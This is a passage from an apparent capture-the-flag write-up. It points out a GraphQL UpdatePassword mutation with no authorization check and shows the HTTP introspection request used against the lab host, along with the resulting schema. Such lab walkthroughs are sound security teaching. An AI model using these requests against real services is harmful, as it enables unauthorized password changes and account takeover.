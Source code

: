 ```js
},
```

The `UpdatePassword` Mutation looks interesting and as we can see there is no proper authentication to prevent nonadmin users to change other users' password\
Let's look at the `UpdatePassword Mutation` schema through [graphql introspection query](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)

```http
POST /graphql HTTP/1.1
Host: 138.68.162.218:32084
Content-Length: 106
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://138.68.162.218:32084
Referer: http://138.68.162.218:32084/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Connection: close

{
  "query": "{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"
}
```

And here is the `UpdatePassword` Mutation

```json
{
  "name": "UpdatePassword",
  "args": [
    {
      "name": "username",
      "description": null,
      "type": {
        "name": null,
        "kind": "NON_NULL",
        "ofType": {
          "name": "String",
          "kind": "SCALAR"
        }
      }
    },
    {
      "name": "password",
      "description": null,
      "type": {
        "name": null,
        "kind": "NON_NULL",
        "ofType": {
          "name": "String",
          "kind": "SCALAR"
        }
      }
    }
  ]
}
```
